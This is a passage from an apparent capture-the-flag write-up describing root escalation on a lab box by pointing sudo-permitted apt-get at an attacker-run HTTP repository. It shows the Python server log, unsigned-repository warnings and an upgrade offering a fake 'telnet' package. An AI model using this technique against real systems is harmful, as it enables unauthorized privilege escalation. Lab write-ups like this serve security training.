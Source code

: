 I’ll test it as well, just to make sure it works. It does.

#### update

Now I’ll run `sudo /usr/bin/apt-get update`. At my http server, I see:

```

root@kali# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
127.0.0.1 - - [26/Aug/2019 09:39:11] code 404, message File not found
127.0.0.1 - - [26/Aug/2019 09:39:11] "GET /devuan/dists/ascii/InRelease HTTP/1.1" 404 -
127.0.0.1 - - [26/Aug/2019 09:39:11] "GET /devuan/dists/ascii/Release HTTP/1.1" 200 -
127.0.0.1 - - [26/Aug/2019 09:39:11] code 404, message File not found
127.0.0.1 - - [26/Aug/2019 09:39:11] "GET /devuan/dists/ascii/Release.gpg HTTP/1.1" 404 -
127.0.0.1 - - [26/Aug/2019 09:39:11] "GET /devuan/dists/ascii/main/binary-amd64/Packages.gz HTTP/1.1" 200 -

```

I can see it successfully retrieves `Release` and then `Packages.gz`. The `Release` file tells the system there’s a new package to install in `Packages` at that path. Then it gets the compressed version. On a normal system, it would end with a message about how many packages were available for update, and suggesting I run `apt upgrade`, something like this:

```

1887 packages can be upgraded. Run 'apt list --upgradable' to see them.

```

However here, it only gives warnings about my unsigned `Release` file (it did try to get `Release.gpg` and fail):

```

W: The repository 'http://packages.onetwoseven.htb/devuan ascii Release' is not signed.
N: Data from such a repository can't be authenticated and is therefore potentially dangerous to use.
N: See apt-secure(8) manpage for repository creation and user configuration details.

```

That’s just fine.

#### upgrade

Now I’ll run `upgrade`. Right away, it tells me that `telnet` will be upgraded, and 0 extra bytes of disk space will be used:

```

www-admin-data@onetwoseven:/$ sudo /usr/bin/apt-get upgrade
Reading package lists... Done
Building dependency tree
Reading state information... Done
Calculating upgrade... Done
The following packages will be upgraded:
  telnet
1 upgraded, 0 newly installed, 0 to remove and 0 not upgraded.
Need to get 72.1 kB of archives.
After this operation, 0 B of additional disk space will be used.
Do you want to continue? [Y/n]

```
